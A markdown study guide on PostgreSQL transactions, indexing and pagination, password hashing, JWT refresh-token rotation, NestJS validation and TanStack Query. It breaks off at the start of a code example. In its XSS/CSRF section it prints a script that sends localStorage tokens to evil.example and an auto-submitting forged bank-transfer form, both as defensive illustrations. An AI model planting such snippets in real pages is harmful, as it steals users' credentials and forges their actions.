

# Phase 1 — Auth, Databases & Server State: The Complete Study Guide

> **Prerequisite:** the Phase 0 guide (`phase-0-foundations.md`). This file assumes you know what a
> type, a class, DI, a repository, and a bounded context are. Same conventions: **bold = defined
> here**, examples are standalone (a blog, a bank, a social feed — never the project), type
> everything out yourself.

---


---

## ⌨️ This guide is interactive

**Thirteen exercises are embedded below**, each at the end of the section that teaches it. You write
the code; the guide names what you got and what you missed, and there is a hint and a
**👁 Show answer** on every one.

Most are the things that are wrong in ways a passing test will not show you — an index whose column
order cannot answer your query, pagination that silently duplicates rows, a login whose *timing*
leaks which emails are registered.
## Table of contents

1. [Part A — Relational databases & PostgreSQL, from zero to EXPLAIN](#part-a)
2. [Part B — Authentication, from plaintext disaster to token rotation](#part-b)
3. [Part C — NestJS patterns you need this phase](#part-c)
4. [Part D — React server state: TanStack Query](#part-d)
5. [Part E — One complete schema, end to end](#worked)
6. [Self-quiz with answers](#quiz)
7. [Exercises](#exercises)

---

<a name="part-a"></a>
# Part A — Relational databases & PostgreSQL

## A.1 Tables, rows, and why "relational" won

A **relational database** stores data in **tables** (grids with named, typed columns), one fact per
**row**. Tables reference each other by **keys** — that's the "relation".

A tiny blog, in three tables:

```
authors                     posts                              comments
┌────┬─────────┐   ┌────┬───────────┬───────────┐   ┌────┬─────────┬──────────┐
│ id │ name    │   │ id │ author_id │ title     │   │ id │ post_id │ body     │
├────┼─────────┤   ├────┼───────────┼───────────┤   ├────┼─────────┼──────────┤
│ 1  │ Amina   │   │ 10 │ 1         │ On Coffee │   │ 90 │ 10      │ Great!   │
│ 2  │ Bilal   │   │ 11 │ 2         │ On Tea    │   │ 91 │ 10      │ Disagree │
└────┴─────────┘   └────┴───────────┴───────────┘   └────┴─────────┴──────────┘
```

- **Primary key (PK)** — the column that uniquely identifies a row (`id`).
- **Foreign key (FK)** — a column holding another table's PK (`posts.author_id → authors.id`).
  The database can *enforce* that a post never points to a nonexistent author
  (**referential integrity**).
- **Schema** — the set of table definitions: names, column types, keys, constraints. The schema is
  the database's type system; treat it with the same respect as `strict: true`.

**SQL** is the language for all of it:

```sql
SELECT p.title, a.name
FROM posts p
JOIN authors a ON a.id = p.author_id   -- stitch tables together via the FK
WHERE a.name = 'Amina'
ORDER BY p.id DESC
LIMIT 10;
```

## A.2 Transactions and ACID — the bank-transfer story

Move €50 from account A to account B. That is *two* updates:

```sql
UPDATE accounts SET balance = balance - 50 WHERE id = 'A';
-- ⚡ power failure exactly here?
UPDATE accounts SET balance = balance + 50 WHERE id = 'B';
```

If the world stops between them, €50 has evaporated. A **transaction** makes several statements
one all-or-nothing unit:

```sql
BEGIN;
UPDATE accounts SET balance = balance - 50 WHERE id = 'A';
UPDATE accounts SET balance = balance + 50 WHERE id = 'B';
COMMIT;   -- both become visible atomically; ROLLBACK undoes both
```

**ACID** is the guarantee bundle:

- **A**tomicity — all statements apply, or none do.
- **C**onsistency — constraints (FKs, uniqueness, checks) hold before *and* after.
- **I**solation — concurrent transactions don't see each other's half-finished work. *How much* they
  don't see is the **isolation level**, and it's the next section — this is the part people skip and
  then get bitten by in production.
- **D**urability — once committed, it survives a crash (it's on disk, not just in RAM).

Everything else in backend engineering builds on knowing precisely when you're inside a transaction
and when you're not.

### A.2.1 Isolation levels — the anomalies, reproduced

"Isolation" isn't one setting, it's a dial. Turn it up and you're safer but slower; turn it down and
concurrent transactions start seeing each other. The levels are defined by **which anomalies they
allow**, so learn the anomalies first — each is a concrete thing you can make happen in two `psql`
windows.

Every trace below was run against Postgres 16. Open two terminals and reproduce them; twenty minutes
here saves you a production incident.

**Dirty read** — reading another transaction's *uncommitted* data, which could still be rolled back.

> **Postgres never allows this, at any level.** `READ UNCOMMITTED` exists in the SQL standard, but
> Postgres silently treats it as `READ COMMITTED`. Worth knowing so you can say why you *can't*
> demonstrate one — it's a fair interview question and "Postgres doesn't have that level" is the
> right answer.

**Non-repeatable read** — the same row, read twice in one transaction, gives different values.

```sql
-- Session A                                  -- Session B
BEGIN ISOLATION LEVEL READ COMMITTED;
SELECT bal FROM acct WHERE id=1;   -- 100
                                              UPDATE acct SET bal=999 WHERE id=1;  -- commits
SELECT bal FROM acct WHERE id=1;   -- 999  ← changed underneath us
COMMIT;
```

Measured output: `100` then `999`. Switch A to `REPEATABLE READ` and the same script prints `100`
then **`100`** — the transaction keeps the snapshot it started with.

**Phantom read** — the same *query* returns a different set of rows, because someone inserted.

```sql
-- Session A                                  -- Session B
BEGIN ISOLATION LEVEL REPEATABLE READ;
SELECT count(*) FROM acct;         -- 2
                                              INSERT INTO acct VALUES (3, 50);     -- commits
SELECT count(*) FROM acct;         -- 2   ← still 2 in Postgres
COMMIT;
```

> **The Postgres-specific fact worth knowing.** The SQL standard *permits* phantoms at Repeatable
> Read. **Postgres prevents them anyway**, because its Repeatable Read is implemented as true
> **snapshot isolation** — your transaction sees one frozen picture of the database from the moment
> it began. Measured above: the count stayed `2`. So Postgres's RR is *stronger* than the standard
> requires. Say that in an interview and you're visibly not reciting a textbook.

| Level | Dirty read | Non-repeatable | Phantom | Cost |
|---|---|---|---|---|
| Read Uncommitted | *n/a in PG* | yes | yes | — |
| **Read Committed** (PG default) | no | **yes** | **yes** | cheapest |
| **Repeatable Read** | no | no | **no in PG** (yes per the standard) | snapshot; may abort |
| **Serializable** | no | no | no | may abort with a serialization error |

### A.2.2 The lost update — the one that will actually bite you

None of the above is what breaks real applications. **This** is:

```sql
-- Session A                                  -- Session B
BEGIN;
SELECT bal FROM acct WHERE id=1;   -- reads 100
                                              BEGIN;
                                              UPDATE acct SET bal = 100 + 20;  -- 120
                                              COMMIT;
UPDATE acct SET bal = 100 + 10;    -- writes 110, clobbering B
COMMIT;
```

Measured final balance: **110**. Both updates "succeeded", no error was raised anywhere, and B's +20
is simply gone. Start at 100, apply +20 and +10, end at 110. This is the **lost update**, and it is
the shape of every "two workers processed the same job" and "the user's rating is wrong" bug you will
ever chase. Notice it needs no exotic isolation level — it's the *default*.

Three fixes, in increasing order of cost:

**1. Don't read-then-write. Let the database do the arithmetic.**

```sql
UPDATE acct SET bal = bal + 10 WHERE id = 1;   -- atomic; no lost update possible
```

The read and the write happen in one statement under one row lock. If you can express your change
this way, *always* do — it's free and it cannot go wrong.

**2. Pessimistic lock — `SELECT … FOR UPDATE`** when you must read, think, then write.

```sql
BEGIN;
SELECT bal FROM acct WHERE id = 1 FOR UPDATE;   -- other writers now BLOCK here
-- ... compute the new balance in application code ...
UPDATE acct SET bal = $new WHERE id = 1;
COMMIT;                                          -- lock released
```

Whoever gets there first wins; the other waits. Correct, simple, and it serialises access — so keep
the transaction short, because everyone else is queueing behind you.

**3. Optimistic lock — a version column** when conflicts are *rare* and you don't want the blocking.

```sql
UPDATE acct SET bal = $new, version = version + 1
 WHERE id = 1 AND version = $versionIRead;
-- 0 rows updated ⇒ someone else changed it ⇒ re-read and retry
```

This is exactly the conditional-write pattern from Phase 2's idempotent job handler: **the affected
row count is how you learn you lost the race.** Nobody blocks; the loser retries.

> **Choosing:** high contention on the same row → pessimistic (blocking beats a retry storm). Low
> contention → optimistic (no locks in the common case). Pure arithmetic → neither; use fix 1.

### A.2.3 Deadlocks

Two transactions each holding a lock the other wants:

```
A: locks row 1 ────► wants row 2
B: locks row 2 ────► wants row 1        neither can proceed
```

Postgres detects this after ~1 second and **kills one** with
`ERROR: deadlock detected`. Two rules keep it rare:

- **Always acquire locks in the same order** — e.g. always the lower `id` first. Most deadlocks are
  two code paths touching the same two rows in opposite orders.
- **Keep transactions short.** Never do an HTTP call, a file read, or anything slow while holding a
  lock — you're holding it for the whole round-trip.

Deadlock is not a bug to eliminate entirely; it's a condition to make rare and to **retry**. Wrap the
transaction and retry once on SQLSTATE `40P01` (deadlock) or `40001` (serialization failure).

### A.2.4 Serializable, and the error you must handle

`SERIALIZABLE` makes concurrent transactions behave *as if* they ran one after another. Postgres
implements it optimistically: it lets them run and **aborts one** if the outcome couldn't have
happened serially. Two sessions each summing a table and then inserting based on that sum produced,
verbatim:

```
ERROR:  could not serialize access due to read/write dependencies among transactions
```

That is not a failure of your code — **it's the level working**, and it means the level is unusable
unless you write the retry loop. Any code using `SERIALIZABLE` must catch `40001` and retry the whole
transaction. If you're not prepared to write that loop, use `READ COMMITTED` with explicit locking
instead.

### A.2.5 Connection pooling (the thing nobody mentions until it breaks)

Opening a Postgres connection is *expensive* — a new backend **process**, several megabytes of RAM.
Postgres defaults to `max_connections = 100`, and a server that opens one per request dies instantly
under load with `FATAL: sorry, too many clients already`.

A **connection pool** keeps a small set of connections open and hands them out. Prisma pools by
default (`connection_limit`, default = `num_cpus * 2 + 1`). Two consequences that surprise people:

- **A transaction holds its connection for its whole duration.** A long transaction isn't just slow,
  it removes a connection from the pool for everyone.
- **Serverless breaks the model** — every function instance opens its own pool and you exhaust
  `max_connections` fast. The fix is an external pooler (PgBouncer, or Prisma Accelerate) in
  *transaction* pooling mode.

> **Mastery check for this section:** you should be able to state, without notes, what Postgres's
> default isolation level is, one anomaly it permits, why `UPDATE … SET bal = bal + 10` is safer than
> read-then-write, and what a `40001` error means.

## A.3 Indexes — from phone book to B-tree

### The problem, measured

`SELECT * FROM users WHERE email = 'zoe@example.com'` on a table of 10 million rows: without help,
the database must read *every row* and compare — a **sequential scan** (Seq Scan). Milliseconds
become seconds; each query burns I/O that other queries needed.

### The phone book insight

A paper phone book finds "Zoubir" among a million entries in seconds — because it is *sorted*, you
jump: middle of the book, too early? jump forward. That's binary search: ~20 comparisons for a
million entries (log₂ 1,000,000 ≈ 20).

An **index** is a sorted auxiliary structure the database maintains next to your table so it can
jump instead of scan.

### B-tree — the default index (what `CREATE INDEX` gives you)

A **B-tree** is the phone book generalized: a shallow, wide tree of sorted keys where each leaf
points at table rows.

```
                    [ M ]                     ← root: "less than M? go left"
                 /         \
          [ D, H ]         [ R, W ]           ← internal nodes
          /   |   \        /   |   \
      [A-C][D-G][H-L]  [M-Q][R-V][W-Z]        ← leaves → row locations
```

Three properties to remember:

1. Depth grows with log(N): a *billion* rows ≈ 4–5 levels. Lookups touch 4–5 pages, not a billion.
2. Leaves are sorted and linked → **range queries** (`BETWEEN`, `<`, `ORDER BY`) walk the leaves
   left-to-right for free. This is why B-tree handles `=`, `<`, `>`, `ORDER BY`, prefix `LIKE 'abc%'`.
3. **Writes pay for reads**: every INSERT/UPDATE must also update every index on the table. An
   index you never query is a pure tax. ("Profile first, index second.")

### The other index types (know when, not just what)

- **Hash index** — a hash table: `=` lookups only. No ranges, no ordering. Rarely worth it over
  B-tree; know it exists so you can say why you *didn't* use it.
- **GIN** (Generalized Inverted Index) — for columns whose values are *containers*: arrays, JSONB,
  full-text vectors. Inverted like a book's back-index: instead of "row → its tags", it stores
  "tag → every row containing it". `WHERE tags @> ARRAY['jazz']` on a million-row playlist table:
  GIN makes it a lookup; B-tree can't help at all (it would index whole arrays as opaque blobs).
- **Partial index** — an index with a `WHERE` clause, covering only the rows you actually query:
  `CREATE INDEX ON orders (created_at) WHERE status = 'pending'`. If 99% of orders are completed
  and every dashboard query filters on pending, the partial index is 100× smaller and stays hot in
  memory.
- **Composite index** — one index over `(a, b)`. Column order matters: it's sorted by `a` first,
  then `b` within equal `a` — like a phone book sorted by last name then first name. It serves
  `WHERE a = ?` and `WHERE a = ? AND b = ?`, but *not* `WHERE b = ?` alone (you can't find all
  "Karims" in a book sorted by surname). Leftmost-prefix rule; it will decide your key layouts
  forever.


```exercise
index-column-order
```

## A.4 EXPLAIN ANALYZE — reading the query plan

The **query planner** turns your SQL into an execution strategy. `EXPLAIN` shows the plan;
`EXPLAIN ANALYZE` *runs* it and shows reality. This is the single highest-leverage debugging skill
in databases.

```sql
EXPLAIN ANALYZE SELECT * FROM users WHERE email = 'zoe@example.com';
```

**Before an index** (the bad one):

```
Seq Scan on users  (cost=0.00..180000.00 rows=1 width=88)
                   (actual time=812.44..812.45 rows=1 loops=1)
  Filter: (email = 'zoe@example.com')
  Rows Removed by Filter: 9999999
```

**After `CREATE INDEX ON users (email);`**:

```
Index Scan using users_email_idx on users  (cost=0.43..8.45 rows=1 width=88)
                                           (actual time=0.031..0.032 rows=1 loops=1)
  Index Cond: (email = 'zoe@example.com')
```

How to read it:

- **The node name is the verdict**: `Seq Scan` (read everything), `Index Scan` (jump via index,
  then fetch rows), `Index Only Scan` (the index alone answers the query — fastest, no table
  visit), `Bitmap Heap Scan` (index finds many scattered rows; batch-fetched), plus join
  strategies (`Nested Loop`, `Hash Join`, `Merge Join`) you'll meet naturally.
- **`actual time=first..total` in ms** — trust `actual`, not `cost` (cost is the planner's unitless
  guess). Here: 812ms → 0.03ms. Twenty-five-thousand-fold.
- **`rows=` estimated vs actual** — when these diverge wildly, the planner is flying blind
  (stale statistics → run `ANALYZE users;`) and picks bad plans.
- **`Rows Removed by Filter`** — work done and thrown away. Big numbers here = a missing index or
  a filter the index doesn't cover.

Habit to build now: any query you write for a table you expect to grow, run `EXPLAIN ANALYZE` on it
*with realistic data volume* (seed a million rows in a scratch table — generators make this easy).
Ten users of test data makes every plan look fine.

## A.5 Pagination — offset vs cursor

### Offset pagination and its two diseases

```sql
SELECT * FROM posts ORDER BY created_at DESC LIMIT 20 OFFSET 100000;  -- "page 5001"
```

1. **Skip cost.** `OFFSET 100000` doesn't *jump*; the database must **produce and discard**
   100,000 rows to find row 100,001. Page 1 is fast, page 5001 is a coffee break. Cost grows
   linearly with page depth — O(N) per request, O(N²) to walk the whole set.
2. **Drift.** Between your page-1 request and page-2 request, someone inserts a new post at the
   top. Every row shifts down by one → the last item of page 1 reappears as the first item of
   page 2 (duplicate), or with a deletion, an item silently vanishes between pages. On a live feed
   this is constant, visible jank.

### Cursor pagination

A **cursor** (also "keyset" pagination) says: instead of "skip 100,000", remember *where I stopped*
— the sort-key value of the last row I saw — and continue from there:

```sql
-- page 1:
SELECT * FROM posts ORDER BY created_at DESC, id DESC LIMIT 20;
-- client got last row: created_at='2024-06-01T10:00:00Z', id=4123
-- page 2:
SELECT * FROM posts
WHERE (created_at, id) < ('2024-06-01T10:00:00Z', 4123)   -- ← the cursor
ORDER BY created_at DESC, id DESC
LIMIT 20;
```

- The `WHERE` clause dives straight into the B-tree — **O(log N) regardless of depth**. Page 5001
  costs the same as page 1.
- New inserts above your cursor don't shift anything below it — **no duplicates, no gaps**.
- `id` is included as a **tie-breaker** because `created_at` may not be unique; the cursor must
  identify one exact position, so cursor over a *unique* combination, and the composite index
  `(created_at, id)` must match the ORDER BY.
- The API shape: return items + an opaque `nextCursor` string (commonly base64 of the key values).
  Trade-off to defend honestly: you lose "jump to page 37" — which infinite-scroll UIs never
  needed anyway.


```exercise
cursor-pagination
```

## A.6 The N+1 problem

Display 50 blog posts *with author names*. The innocent code:

```ts
const posts = await db.post.findMany({ take: 50 });          // 1 query
for (const post of posts) {
  post.author = await db.author.findById(post.authorId);      // 50 more queries!
}
```

1 + 50 = **N+1 queries**. Each round-trip pays network latency; 51 × 2ms = 100ms of pure overhead,
and it *scales with the data*. The fix is always some form of "fetch the related rows in bulk":

```ts
// Prisma: include emits a JOIN or a single IN() query
const posts = await db.post.findMany({ take: 50, include: { author: true } });

// or by hand: 2 queries total, regardless of N
const posts = await db.post.findMany({ take: 50 });
const authors = await db.author.findMany({
  where: { id: { in: [...new Set(posts.map(p => p.authorId))] } },
});
```

N+1 hides easily behind ORMs and lazy loading — it's the most common real-world performance bug in
CRUD apps. Detection habit: log SQL in development; if one page load prints a waterfall of
identical-shaped queries, you found one.


```exercise
n-plus-one
```

## A.7 Migrations — version control for your schema

A **migration** is a script that transforms the schema from version N to N+1
(`ALTER TABLE users ADD COLUMN bio TEXT`), stored in git, applied in order, recorded in a bookkeeping
table so each runs exactly once per database. Never edit a database by hand: hand edits make your
laptop, your teammate's laptop, and production three silently different databases. With migrations,
`git log` *is* the history of your schema and a fresh database can be rebuilt from zero.

Prisma's division of labor: `schema.prisma` declares the *desired* schema; `prisma migrate dev`
diffs desired vs actual and generates + applies the SQL migration; `prisma generate` regenerates
the typed client. You review the generated SQL like any code.

---

<a name="part-b"></a>
# Part B — Authentication, gradually

Vocabulary first: **authentication** ("authn") = *who are you?* — verifying identity.
**Authorization** ("authz") = *what may you do?* — permissions. A bouncer checking your ID is
authenticating; checking the guest list is authorizing.


```exercise
schema-constraints
```

```exercise
transaction-atomicity
```

## B.1 Passwords: why hashing, why salt, why bcrypt

**Never store passwords.** Store something that lets you *verify* a password without *knowing* it.

A **hash function** maps any input to a fixed-size fingerprint, one-way: easy to compute, infeasible
to reverse.

```
hash("hunter2")  = "f52fbd32b2b3b86ff88ef6c490628285f482af15ddcb29541f94bcf526a3f6c7"
hash("hunter3")  = "fb8c2e2b85ca81eb4350199faddd983cb26af3064614e737ea9f479621cfa57a"
```

At signup, store `hash(password)`. At login, hash the attempt and compare. Your database leaks?
Attackers get fingerprints, not passwords.

Two more layers, because attackers are not naive:

- **Salt.** Attackers precompute tables of hashes of common passwords ("rainbow tables") — one
  lookup cracks every user who chose "123456". A **salt** is a random string, unique per user,
  mixed into the hash: `hash(salt + password)`, with the salt stored in plain sight next to the
  hash. Now identical passwords produce different hashes, and precomputed tables die: each user
  requires a fresh brute-force.
- **Slowness on purpose.** SHA-256 was designed to be *fast* — an attacker with GPUs tries
  billions per second. **bcrypt** (also argon2, scrypt) is designed to be *slow and tunable*: its
  **cost factor** (e.g., 12 → 2¹² internal rounds) makes each attempt take ~100–300ms. For your
  user that's imperceptible once per login; for an attacker it collapses billions/sec into dozens/sec.
  Bcrypt also generates and embeds the salt for you:

```
$2b$12$N9qo8uLOickgx2ZMRZoMye.IjefY135Nf7uD1v9pIGSOZDGGuUeS6
 │   │  └──────── salt ───────┘└──────────── hash ───────────┘
 │   └ cost factor (2^12 rounds)
 └ algorithm version
```

Everything fits in one string in one column. Verify with `bcrypt.compare(attempt, stored)`.

> **Which algorithm today?** OWASP's [Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)
> ranks **Argon2id** first (at least 19 MiB of memory, 2 iterations, parallelism 1), then scrypt,
> and keeps bcrypt for legacy systems: work factor 10 or more, and passwords capped at 72 bytes,
> because most bcrypt implementations ignore anything longer. That's why CodeArena uses argon2id
> (ADR 002). bcrypt is explained here because its one-string format makes the ideas visible.


```exercise
timing-attack
```

## B.2 The stateless problem: sessions vs tokens

HTTP is **stateless** — every request arrives with amnesia. After login, how does request #2 prove
it's still you?

**Option 1 — server-side sessions.** On login, the server stores `{ sessionId → userId }` in a
session store and gives the browser the random `sessionId` in a cookie. Every request looks the
session up. Simple; instantly revocable (delete the row); but every request costs a store lookup,
and horizontal scaling needs a shared store.

**Option 2 — tokens (JWT).** The server hands the client a **signed** statement about who they
are; any server instance can verify the signature *without a lookup*.

### JWT anatomy

A **JSON Web Token** is three base64url segments joined by dots — `header.payload.signature`:

```
eyJhbGciOiJIUzI1NiJ9 . eyJzdWIiOiI0MiIsInJvbGUiOiJlZGl0b3IiLCJleHAiOjE3MjAwMDAwMDB9 . 4Hb1...sig

header    (decoded): { "alg": "HS256" }
payload   (decoded): { "sub": "42", "role": "editor", "exp": 1720000000 }
signature: HMAC-SHA256(header + "." + payload, SERVER_SECRET)
```

Three facts people get wrong constantly:

1. **A JWT is readable by anyone.** Base64 is encoding, not encryption — paste any JWT into a
   decoder and see the payload. Never put secrets in one.
2. **What it guarantees is integrity**: nobody can *alter* the payload (change `"role":"editor"` to
   `"admin"`) without the signature failing, because they don't have the server's secret.
   Signing = tamper-proof, not secret.
3. **It cannot be un-issued.** There's no lookup, so there's nothing to delete. A stolen JWT is
   valid until `exp` (its expiry claim). This is THE weakness the whole next section exists to
   manage.


```exercise
jwt-payload
```

## B.3 Access + refresh tokens, and rotation

The tension: long-lived tokens are dangerous when stolen; short-lived tokens log users out every
few minutes. The industry answer is **two tokens**:

| | Access token | Refresh token |
|---|---|---|
| Lifetime | minutes (5–15) | days/weeks |
| Sent | with *every* API request | only to one endpoint: `/auth/refresh` |
| Type | JWT, verified statelessly | opaque random string, **stored server-side (hashed!)** |
| If stolen | damage window = minutes | revocable — delete the DB row |

Flow:



Details that are actually the interview answers:

- **Why hash refresh tokens in the DB?** They're long-lived credentials — a DB leak must not hand
  out working tokens. Same logic as passwords (fast SHA-256 is fine here — these are 256-bit random
  strings, not guessable words).
- **Why server-side refresh rather than a long-lived JWT?** *Revocability.* "Log out everywhere"
  and "ban this account now" are `DELETE FROM refresh_tokens WHERE user_id = ?`. With pure JWTs
  those features are impossible.
- **Rotation** = every refresh consumes the old token and issues a new one — each is single-use.
  What attack does this defeat? **Token theft detection.** Attacker steals your refresh token and
  uses it → gets new tokens, your copy is now dead. When *you* later try to refresh with the dead
  token, the server sees a *used* token being replayed — proof of theft — and revokes the entire
  family, logging the attacker out too. Without rotation, a stolen refresh token works silently
  for weeks.
- **Idempotent logout**: logging out twice (double-click, retried request) must succeed both times
  — "delete if exists", never "error if already gone".


```exercise
rotation-order
```

## B.4 Where the client stores tokens — XSS vs CSRF

Two browser attack classes decide this choice; understand both before the storage debate makes sense.

**XSS (cross-site scripting)** — attacker gets *their JavaScript running on your page* (via an
unsanitized comment field, a compromised npm package, an injected ad). That script can do anything
your code can — including `localStorage.getItem("token")` and shipping it to the attacker.

```html
<!-- a "comment" that a naive app renders as raw HTML: -->
<script>fetch("https://evil.example/steal?t=" + localStorage.getItem("access"))</script>
```

**Rule that follows: anything readable by JavaScript is stolen the moment you have any XSS.**
`localStorage`/`sessionStorage` are readable by JavaScript. Hence:

**httpOnly cookies.** A cookie flagged `httpOnly` is attached to requests by the *browser itself*
and is **invisible to JavaScript** — `document.cookie` doesn't show it. XSS can no longer
*exfiltrate* the token. Set it like:

```
Set-Cookie: refresh=abc123; HttpOnly; Secure; SameSite=Strict; Path=/auth/refresh
```

(`Secure` = HTTPS only. `Path` = only sent to the refresh endpoint, minimizing exposure.)

**But cookies invite CSRF (cross-site request forgery).** Because the browser attaches cookies
*automatically*, a malicious page can make your browser fire authenticated requests without
reading anything:

```html
<!-- on evil.example, while you're logged into yourbank.com: -->
<form action="https://yourbank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="9999" />
</form>
<script>document.forms[0].submit()</script>  <!-- cookie rides along automatically -->
```

Defenses:

- **`SameSite=Strict`** — the browser refuses to attach the cookie to any request initiated from
  another site. This kills the attack above outright. Trade-off: even a legitimate link *into*
  your app from an email arrives without the cookie (user looks logged out until navigation);
  `SameSite=Lax` relaxes exactly that case, allowing top-level GET navigations — a good choice
  because GETs must never mutate state anyway. Some browsers apply Lax when no `SameSite` is set,
  but not all ([MDN: Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie)),
  so always set it explicitly.
- **CSRF tokens** — a per-session random value that must ALSO arrive in a header/form field, which
  a foreign page can't read. Belt-and-suspenders for older browsers or `None` cookies.

**The verdict to defend:** refresh token in an `httpOnly; Secure; SameSite` cookie (XSS-proof
storage, CSRF handled by SameSite), access token kept *in memory only* (a JS variable — gone on
tab close, never persisted anywhere stealable), re-obtained via refresh on page load. And the
client needs a **refresh interceptor**: a wrapper around `fetch` that catches a 401, calls
`/auth/refresh` once, then transparently retries the original request — otherwise users are
"randomly logged out" every 15 minutes (this is the #1 rookie auth bug).


```exercise
cookie-flags
```

```exercise
xss-vs-csrf
```

## B.5 RBAC — role-based access control

Authorization, the simplest scheme that works: each user has **roles** (`user`, `moderator`,
`admin`); each endpoint declares which roles may call it; a guard compares. In NestJS this is
precisely the `SetMetadata` + `Reflector` two-step from Phase 0:

```ts
@Roles("admin")            // decorator writes metadata
@Delete("posts/:id")
remove() {}

// RolesGuard reads it:
const required = this.reflector.getAllAndOverride<string[]>("roles",
  [ctx.getHandler(), ctx.getClass()]);          // method overrides class
return required.every(r => request.user.roles.includes(r));
```

`getAllAndOverride` = check method first, fall back to controller — so you can mark a whole
controller `@Roles("admin")` and loosen one route.

---

<a name="part-c"></a>
# Part C — NestJS patterns for this phase

## C.1 Validation at the edge: "parse, don't validate"

Data from the outside world (HTTP bodies, query strings, env vars) is **untrusted text**. The
principle **parse, don't validate** says: don't sprinkle `if (typeof x !== "string")` checks around
your code — instead, at the boundary, *parse* the raw input into a typed value **once**, and from
then on the type system guarantees it everywhere downstream.

**Zod** is a library that does exactly this — you declare a schema, it both *validates at runtime*
and *derives the static type*, so runtime checks and compile-time types can never drift apart:

```ts
import { z } from "zod";

const CreateRecipeSchema = z.object({
  title:    z.string().min(3).max(120),
  servings: z.coerce.number().int().positive(),  // "4" (string from a form) → 4
  tags:     z.array(z.string()).max(10).default([]),
});

type CreateRecipe = z.infer<typeof CreateRecipeSchema>; // static type, derived, free

const result = CreateRecipeSchema.safeParse(request.body);
if (!result.success) /* 400 with result.error.issues */;
else result.data;    // fully typed, fully validated CreateRecipe
```

Versus class-validator (the decorator-based alternative NestJS docs default to): class-validator
ties validation to classes and decorators, can drift from the actual type, and can't express
"coerce then refine" pipelines as naturally. Zod schemas are plain values — composable
(`.extend()`, `.pick()`), shareable with the frontend through your monorepo's shared package
(one schema validating both the form and the API — that's the monorepo payoff), and they *own*
the type. Trade-off: decorators integrate marginally more smoothly with Nest's ecosystem;
`nestjs-zod` bridges the gap with a `ZodValidationPipe`.

Same discipline for configuration: parse `process.env` through a Zod schema at boot
(`PORT: z.coerce.number()`, `DATABASE_URL: z.string().url()`), so a typo'd env var crashes the app
at startup with a named error instead of at 3 a.m. with a mystery.


```exercise
env-validation
```

## C.2 The auth building blocks assembled

How the pieces you now know click together in one request:

```
POST /articles  (Authorization: Bearer eyJ...)
  → JwtAuthGuard      verifies signature + expiry, attaches payload as request.user
  → RolesGuard        reads @Roles metadata via Reflector, compares to request.user.roles
  → ZodValidationPipe parses body against CreateArticleSchema
  → handler(@CurrentUser() user, @Body() dto)   ← both arguments clean and typed
```

`@CurrentUser()` is a `createParamDecorator` that returns `request.user` — the handler never
touches the raw request. Each piece is independently testable; that's the pipeline from Phase 0
earning its keep.

---

<a name="part-d"></a>
# Part D — React server state: TanStack Query

## D.1 Server state is not client state

Two kinds of state live in a frontend, and confusing them is the root of most React misery:

- **Client state** — born in the browser, owned by the browser: "is the dropdown open", "current
  form draft". `useState` is perfect.
- **Server state** — born on a server, *owned by the server*, of which your component holds a
  **cache**: the list of products, the user's profile. It can go stale the moment you fetch it
  (someone else edits it), it's shared between components, it needs loading/error handling,
  retries, refetching.

The classic hand-rolled version and its diseases:

```tsx
// ❌ what everyone writes first
function Products() {
  const [data, setData] = useState(null);
  const [loading, setLoading] = useState(true);
  const [error, setError] = useState(null);
  useEffect(() => {
    fetch("/api/products")
      .then(r => r.json())
      .then(setData)
      .catch(setError)
      .finally(() => setLoading(false));
  }, []);
  // ...
}
```

Diseases: two components using this fetch **twice** (no shared cache); data is stale forever (no
refetch on focus); unmount during flight → a state update nobody will see (React 17 even warned about it); no retry; no
deduplication; every component re-implements loading/error. `useState` for server data isn't
*wrong syntax* — it's the wrong *ownership model*: it treats a cache of someone else's data as if
it were local truth.


```exercise
server-state
```

## D.2 The TanStack Query mental model

**TanStack Query** (formerly React Query) is a *server-state cache* with hooks. Core concepts:

```tsx
const { data, isPending, error } = useQuery({
